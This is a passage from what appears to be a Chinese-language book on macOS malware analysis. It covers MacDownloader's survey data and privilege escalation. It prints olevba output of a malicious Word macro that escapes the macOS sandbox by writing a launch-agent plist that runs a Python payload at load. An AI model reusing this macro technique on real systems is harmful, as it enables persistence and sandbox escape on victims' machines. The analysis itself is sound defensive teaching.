 ```
"process name is: Spotlight\t PID: 300 Run from: file:\/\/\/System\/Library\/CoreServices\/Spotlight.app\/Contents\/MacOS\/Spotlight",
"process name is: Safari\t PID: 972 Run from: file:\/\/\/Applications\/Safari.app\/Contents\/MacOS\/Safari"...
```

列表 3-3：一项调查（MacDownloader）

如你所见，这份调查信息包含了感染机器的基本版本信息、用户的 root 密码、已安装的应用程序以及正在运行的应用程序列表。

## 提权

在对新感染机器的初步调查过程中，恶意软件通常会查询其运行时环境，以确认其权限级别。当恶意软件最初获得在目标系统上执行代码的能力时，它通常会发现自己在沙箱内运行，或者在当前登录用户的上下文中运行，而不是作为 root 用户。通常，它希望逃逸任何沙箱或提升其权限为 root，这样它就可以更全面地与感染系统交互并执行特权操作。

### 沙箱逃逸

尽管利用沙箱逃逸的恶意软件较为罕见，因为这些逃逸通常需要一个漏洞，但我们可以在 2018 年的一份恶意 Microsoft Office 文档中找到一个例子。名为 *BitcoinMagazine-Quidax_InterviewQuestions_2018* 的文档包含了恶意宏，当文件在 Microsoft Word 中打开时（如果用户启用了宏），这些宏会自动运行。检查这份恶意文档发现，它嵌入了一个 Python 脚本，包含了下载并执行 Metasploit 的 Meterpreter 的逻辑。

然而，macOS 会沙箱化文档，因此它们执行的任何代码都将在一个高度受限、低权限的环境中运行。或者说，它并非如此吗？仔细查看文档中的恶意宏代码，可以发现有逻辑创建了一个名为 *~$com.xpnsec.plist* 的启动代理属性列表（列表 3-4）：

```
# **olevba -c "BitcoinMagazine-Quidax_InterviewQuestions_2018.docm"**

VBA MACRO NewMacros.bas 
in file: word/vbaProject.bin
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
...
path = Environ("HOME") & "/../../../../Library/LaunchAgents/~$com.xpnsec.plist"
arg = "<?xml version=""1.0"" encoding=""UTF-8""?>\n" & _
"<!DOCTYPE plist PUBLIC ""-//Apple//DTD PLIST 1.0//EN"" ""http://www.apple.com/DTDs/PropertyList-1.0.dtd"">\n" & _
"<plist version=""1.0"">\n" & _
"<dict>\n" & _
"<key>Label</key>\n" & _
"<string>com.xpnsec.sandbox</string>\n" & _
"<key>ProgramArguments</key>\n" & _
"<array>\n" & _
"<string>python</string>\n" & _
"<string>-c</string>\n" & _
"<string>" & payload & "</string>" & _
"</array>\n" & _
"<key>RunAtLoad</key>\n" & _
"<true/>\n" & _
"</dict>\n" & _
"</plist>"
Result = system("echo """ & arg & """ > '" & path & "'", "r")
```

列表 3-4：通过启动代理逃逸沙箱
